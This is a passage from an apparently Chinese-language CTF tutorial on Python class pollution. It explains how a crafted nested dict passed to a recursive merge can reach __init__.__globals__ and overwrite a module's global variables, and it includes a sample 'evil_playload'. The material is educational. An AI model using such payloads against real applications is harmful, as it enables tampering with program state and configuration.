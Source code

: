 ```python
print(ctf1.flag)  
print(ctf2.flag)

```

运行结果，可以看到是被污染的了

![Pasted image 20240710163642.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-514c1d1e5c13afea5a33693fcd533afc44bf0356.png)  
然后其他的例如修改内置属性也是ok的这里就不写了。  
记住object的属性是无法被污染的`

```python
merge(evil_playload,object)
print(object)

#TypeError: cannot set 'flag' attribute of immutable type 'object'
```

可以看到会报错的

Question1
=========

这里就产生了一个问题，我们在上述的写法当中是利用Delete去继承了ctfer这个类的，这样子我们才可以通过基类去污染其属性值，但是如果不存在这个继承关系的时候我们应该如何去污染呢？

\_\\globals\_\_
---------------

我们就可以去思索一下关于python的一些问题，例如在SSTI中我们是如何去获取我们可用的属性或者说方法呢？  
应该很直观就能想到，是他——`__globals__`.  
`__globals__` 是 Python 函数对象的一个属性，它返回包含函数定义时的全局变量的字典。通过这个属性，你可以访问和修改函数定义所在的模块中的全局变量。

```python
x = 10  # 全局变量

def my_function():
    print(x)  # 打印全局变量 x

def modify_global_var():
    my_function.__globals__['x'] = 20  # 修改全局变量 x

my_function()  # 输出 10
modify_global_var()
my_function()  # 输出 20

```

可以看到实例当中我们通过这个属性来改变了全局变量中的x。

所以我们就可以这样去构造一下playload

```python
evil_playload = {
    "__init__":{
        "__globals__":{
            "flag" : "flag{really_flag}"
        }

    }
}
```
